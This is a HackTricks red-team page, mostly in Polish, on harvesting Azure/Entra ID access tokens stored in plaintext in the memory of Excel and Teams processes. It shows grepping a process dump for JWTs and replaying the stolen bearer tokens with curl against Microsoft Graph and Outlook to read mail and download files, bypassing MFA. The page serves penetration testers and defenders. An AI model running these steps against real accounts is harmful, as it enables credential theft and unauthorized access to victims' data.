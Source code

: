 # Az - Processes Memory Access Token

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Podstawowe informacje**

Jak wyjaśniono w [**tym wideo**](https://www.youtube.com/watch?v=OHKZkXC4Duw), niektóre oprogramowanie Microsoftu synchronizowane z chmurą (Excel, Teams...) może **przechowywać tokeny dostępu w postaci tekstu jawnego w pamięci**. Więc po prostu **zrzucenie** **pamięci** procesu i **przeszukiwanie jej pod kątem tokenów JWT** może dać ci dostęp do kilku zasobów ofiary w chmurze, omijając MFA.

Kroki:

1. Zrzutuj procesy excela synchronizowane z użytkownikiem EntraID za pomocą swojego ulubionego narzędzia.
2. Uruchom: `string excel.dmp | grep 'eyJ0'` i znajdź kilka tokenów w wynikach
3. Znajdź tokeny, które najbardziej cię interesują i uruchom nad nimi narzędzia:

{% code overflow="wrap" %}
```bash
# Check the identity of the token
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/me | jq

# Check the email (you need a token authorized in login.microsoftonline.com)
curl -s -H "Authorization: Bearer <token>" https://outlook.office.com/api/v2.0/me/messages | jq

# Download a file from Teams
## You need a token that can access graph.microsoft.com
## Then, find the <site_id> inside the memory and call
curl -s -H "Authorization: Bearer <token>" https://graph.microsoft.com/v1.0/sites/<site_id>/drives | jq

## Then, list one drive
curl -s -H "Authorization: Bearer <token>" 'https://graph.microsoft.com/v1.0/sites/<site_id>/drives/<drive_id>' | jq

## Finally, download a file from that drive:
┌──(magichk㉿black-pearl)-[~]
└─$ curl -o <filename_output> -L -H "Authorization: Bearer <token>" '<@microsoft.graph.downloadUrl>'
```
{% endcode %}

**Zauważ, że tego rodzaju tokeny dostępu można również znaleźć w innych procesach.**

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
